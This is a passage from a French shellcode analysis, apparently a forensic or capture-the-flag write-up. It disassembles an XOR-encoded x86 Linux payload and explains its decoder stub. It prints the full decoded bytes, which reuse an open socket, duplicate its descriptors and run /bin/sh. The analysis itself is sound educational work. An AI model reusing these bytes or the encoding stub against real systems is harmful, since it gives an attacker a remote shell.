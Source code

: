 On remarque la présence de NOP (`0x90`) au début, suivi d'un saut (`0xeb`) qui permettent de le reconnaître facilement.  

En revanche la suite n'a rien de bien habituelle, en particulier on note l'absence de la chaine _/bin/sh_.  

Pour comprendre le fonctionnement du shellcode, on le place dans un fichier et on tape `ndisasm -u shellcode` :  

```nasm
00000010  EB0E              jmp short 0x20
00000012  5A                pop edx
00000013  4A                dec edx
00000014  31C9              xor ecx,ecx
00000016  B199              mov cl,0x99
00000018  803411FA          xor byte [ecx+edx],0xfa
0000001C  E2FA              loop 0x18
0000001E  EB05              jmp short 0x25
00000020  E8EDFFFFFF        call 0x12
00000025  137DFA            adc edi,[ebp-0x6]
...
```

La raison pour laquelle le shellcode n'est en grande partie pas lisible, c'est qu'une partie est crypté à l'aide d'un XOR.  

Le code effectue un saut vers l'instruction call à l'adresse 20. Le call le ramène à la seconde instruction avec l'adresse du reste du shellcode dans la pile (car aucun `ret` n'a été effectué). Cette adresse est récupérée et placée dans `edx`.  

Tout le code à partir de cette adresse est décodé à l'aide d'un XOR avec `0xfa` sur une longueur de 153 (`0x99`) octets.  
Une fois décodé, le code qui nous manquait est :  

```plain
e9 87 00 00 00 5f 31 c9  b5 04 89 cb 51 31 c9 b1  |....._1.....Q1..|
03 31 d2 31 c0 b0 37 cd  80 89 c6 89 c2 80 ce 08  |.1.1..7.........|
41 31 c0 b0 37 cd 80 89  ca 8d 4f 08 89 d0 48 cd  |A1..7.....O...H.|
80 89 d1 89 f2 31 c0 b0  37 cd 80 59 81 7f 08 6e  |.....1..7..Y...n|
65 76 65 74 04 e2 c3 eb  bd 31 c0 50 68 77 30 30  |evet.....1.Phw00|
74 89 e1 b0 04 89 c2 cd  80 31 c9 31 c0 b0 3f cd  |t........1.1..?.|
80 41 31 c0 b0 3f cd 80  41 31 c0 b0 3f cd 80 89  |.A1..?..A1..?...|
fb 89 5f 08 31 c0 89 47  0c 88 47 07 31 d2 8d 4f  |.._.1..G..G.1..O|
08 b0 0b cd 80 31 db 89  d8 40 cd 80 e8 74 ff ff  |.....1...@...t..|
ff 2f 62 69 6e 2f 73 68  3f fa                    |./bin/sh?.|
```

Soit les instructions suivantes :  

```nasm
00000000  E987000000        jmp 0x8c
00000005  5F                pop edi
00000006  31C9              xor ecx,ecx
00000008  B504              mov ch,0x4
0000000A  89CB              mov ebx,ecx
0000000C  51                push ecx
0000000D  31C9              xor ecx,ecx
0000000F  B103              mov cl,0x3
00000011  31D2              xor edx,edx
00000013  31C0              xor eax,eax
00000015  B037              mov al,0x37 ; fcntl
00000017  CD80              int 0x80
00000019  89C6              mov esi,eax
0000001B  89C2              mov edx,eax
0000001D  80CE08            or dh,0x8
00000020  41                inc ecx
00000021  31C0              xor eax,eax
00000023  B037              mov al,0x37 ; fcntl
00000025  CD80              int 0x80
```